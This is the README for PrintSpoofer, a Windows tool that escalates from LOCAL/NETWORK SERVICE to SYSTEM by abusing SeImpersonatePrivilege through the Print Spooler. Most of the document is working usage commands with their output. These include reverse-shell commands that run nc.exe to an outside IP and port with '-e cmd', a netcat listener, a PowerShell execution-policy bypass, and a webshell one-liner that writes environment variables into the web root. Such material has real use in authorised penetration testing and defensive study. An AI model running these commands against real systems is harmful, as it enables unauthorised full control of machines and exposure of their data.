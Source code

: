 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

For more information: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/).

<p align="center">
  <img src="demo.gif">
</p>

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

### Usage 1: Spawn a SYSTEM process and interact with it

If you have an __interactive__ shell, you can create a new SYSTEM process in your current console.

__Use case__: bind shell, reverse shell, `psexec.py`, etc.

```txt
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 2: Spawn a SYSTEM process and exit

If you can __execute commands__ but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

__Use case__: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```txt
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```txt
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 3: Spawn a SYSTEM process on a desktop

If you are __logged on locally or via RDP__ (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

__Use case__: Terminal Session (RDP), VDI

```txt
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

### Usage 4: run on webshell

`
/c C:\inetpub\wwwroot\PrintSpoofer.exe -c "c:\\windows\\system32\\cmd.exe /c set > C:\\inetpub\\wwwroot\\tmp.txt & exit" && type C:\\inetpub\\wwwroot\\tmp.txt
`
<p align="center">
  <img src="run_on_webshell.png">
</p>
